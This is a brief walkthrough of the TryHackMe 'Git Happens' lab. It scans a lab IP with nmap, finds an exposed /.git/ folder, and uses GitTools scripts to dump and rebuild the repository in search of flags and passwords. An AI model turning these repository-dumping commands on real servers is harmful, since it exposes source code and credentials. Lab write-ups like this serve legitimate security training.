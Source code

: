 ```yaml
---
title: "Tryhackme - Git Happens WriteUp"
date: 2020-10-18
tags: [tryhackme, walkthrough, linux]
header:
  image: "/images/not-found.gif"
excerpt: "Walkthroughs"
---
```


# TryHackMe - Git Happens WriteUp

Hello, everyone. Today I will share my notes from Git Happens vulnerable machine. I will try to share only the main points during the process.

**Keywords:** /.git/, GitTools, gitdumper.sh, extractor.sh

First of all, we do **nmap** scan.

```
root@kali:~/TryHackMe/Git Happens# nmap -p 80 -A 10.10.63.247
...
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git: 
|   10.10.63.247:80/.git/
|     Git repository found!
...
```

Then we try to **dump** all the files from **/.git/** folder and then **extract** all the pushes.

For more: https://github.com/internetwache/GitTools/

Dumping:
```
root@kali:~/TryHackMe/Git Happens/.git# ./gitdumper.sh http://10.10.63.247/.git/ .
```

Extacting:
```
root@kali:~/TryHackMe/Git Happens/.git# ./extractor.sh /root/TryHackMe/Git\ Happens/.git/ ./extract-git/
```
Then read all the pushes add find the flag, password or anything useful .